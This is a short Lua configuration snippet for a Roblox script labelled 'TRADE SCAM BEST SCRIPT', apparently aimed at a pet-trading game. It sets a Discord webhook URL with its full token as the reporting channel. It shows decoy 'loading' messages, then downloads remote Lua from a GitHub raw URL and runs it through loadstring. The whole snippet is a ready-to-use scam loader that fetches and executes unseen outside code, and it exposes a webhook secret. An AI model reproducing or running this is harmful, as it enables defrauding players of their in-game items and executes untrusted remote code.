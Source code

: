 Username = "cocvn_my"

WebHook = "https://discord.com/api/webhooks/1079342398871715841/LAWZqg3Hby0JeXIPPatac7jdyNbbQ6mnNWFzqnXnd4Sj7X7OKRcfvWYp2uyAucZa7BeR"

_G.CustomScriptName = "TRADE SCAM BEST SCRIPT"

_G.Text1 = "Script Loaded..."

_G.Text2 = "Waiting for Script"

_G.Text3 = "Checking Scripts..."

_G.Text4 = "Starting Scripts..."

loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
